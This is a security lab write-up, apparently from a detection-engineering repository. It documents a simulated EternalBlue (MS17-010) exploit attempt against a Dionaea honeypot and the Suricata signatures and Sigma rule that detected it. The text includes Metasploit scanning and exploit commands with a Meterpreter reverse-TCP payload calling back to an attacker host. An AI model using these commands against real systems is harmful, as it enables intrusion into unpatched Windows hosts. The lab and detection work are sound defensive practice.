

# T1190 — Exploit Public-Facing Application (EternalBlue / MS17-010)

**Author:** Looteri 
**Date:** 2026-03-27  
**Environment:** T-Pot (Dionaea + Suricata) + Kali Linux + Elastic Stack  
**MITRE ATT&CK:** [T1190](https://attack.mitre.org/techniques/T1190/)  
**CVE:** CVE-2017-0144 (MS17-010 EternalBlue)  
**Status:** Completed

---

## Objective

Simulate an EternalBlue (MS17-010) exploit attempt against a Dionaea honeypot,
analyze honeypot behavior and detection limitations, and validate
Suricata IDS coverage against a real-world critical vulnerability.

---

## Lab Environment

|    	Component     	  | 			Role				|
|-------------------------|-----------------------------------------------------|
|    T-Pot (Dionaea) 	  | 	SMB honeypot, attack target — IP: 10.20.124.124	|
|    T-Pot (Suricata) 	  | 	IDS — signature-based detection 		|
| Kali Linux + Metasploit | 	Attacker machine — IP: 10.20.8.85 		|
| Elastic Stack + Kibana  | 	SIEM — log ingestion and analysis 		|

---

## Baseline — Pre-Attack State

Before simulation, Dionaea recorded 28 inbound SMB connections on port 445
from a single external IP (`10.120.124.9`) — indicating real-world EternalBlue
scanning activity from the internet.

| Protocol | Port | Count |
|----------|------|-------|
|   smbd   | 445  |   35  |

---

## Phase 1 — Vulnerability Scanning
```bash
msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; \
  set RHOSTS 10.20.124.124; run; exit"
```

Metasploit scanner confirmed two findings:
```
[+] Host is likely VULNERABLE to MS17-010 — Windows 7 Professional 7600
[!] Host is likely INFECTED with DoublePulsar — Arch: x86, XOR Key: 0x5E367352
```


> **Note:** Dionaea intentionally emulates a vulnerable Windows 7 host
> including a simulated DoublePulsar backdoor — designed to engage attackers
> and gather intelligence on exploit attempts.

---

## Phase 2 — Exploit Attempt
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.20.124.124
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.20.8.85
run
```

Result:
```
[+] Target is vulnerable
[+] Connection established for exploitation
[*] Trying exploit with 12 Groom Allocations
[-] RubySMB::Error::CommunicationError: Read timeout expired
[*] Exploit completed, but no session was created.
```

**No Meterpreter session obtained.** Dionaea accepted the connection and
responded to initial SMB negotiation — but does not implement the full
SMB protocol required to complete EternalBlue exploitation.
This is expected honeypot behavior.

---

## Dionaea Log Analysis
```esql
FROM logstash-*
| WHERE type == "Dionaea" AND src_ip == "10.20.8.85"
| KEEP @timestamp, src_ip, dest_port, connection.protocol, connection.type
```

| 	Timestamp     | src_ip 	   | dest_port | Protocol |  Type  |
|---------------------|------------|-----------|----------|--------|
| 2026-03-27 11:12:26 | 10.20.8.85 | 	445    | smbd     | accept |
| 2026-03-27 11:12:26 | 10.20.8.85 | 	135    | epmapper | accept |

Port 135 (DCE/RPC epmapper) was contacted alongside port 445 —
consistent with Metasploit's MS17-010 module behavior during
exploit staging.

---

## Suricata Detection

| 			Signature 					| Count |
|-----------------------------------------------------------------------|-------|
| **ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (MSF style)** 	| **2** |
| **ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (Generic Flags)** 	| **2** |
| **ET EXPLOIT [PTsecurity] DoublePulsar Backdoor installation** 	| **2** |
| ET INFO Potentially unsafe SMBv1 protocol in use 			| 1 |
| ET INFO NTLM Session Setup Request 					| 2 |

Suricata fired three distinct exploit signatures during the attempt —
including a PTsecurity rule specifically targeting DoublePulsar
backdoor communication patterns.

---

## SIGMA Detection Rule

File: [`../../detections/sigma/T1190-eternalblue-ms17-010.yml`]
(../../detections/sigma/T1190-eternalblue-ms17-010.yml)

Detection logic: Suricata alert containing `ETERNALBLUE` or `DoublePulsar`
signature string on destination port 445.

---

## Findings

- Dionaea successfully emulates MS17-010 vulnerability at scanner level —
  attracting and logging real-world exploit attempts
- Full exploitation is not possible against Dionaea — SMB protocol
  implementation is intentionally incomplete
- Suricata detected the exploit attempt via three independent signatures —
  demonstrating layered detection coverage
- DoublePulsar simulation generates additional high-fidelity alerts
  useful for threat intel correlation
- Port 135 (epmapper) contact alongside 445 is a reliable behavioral
  indicator of MS17-010 exploitation attempts
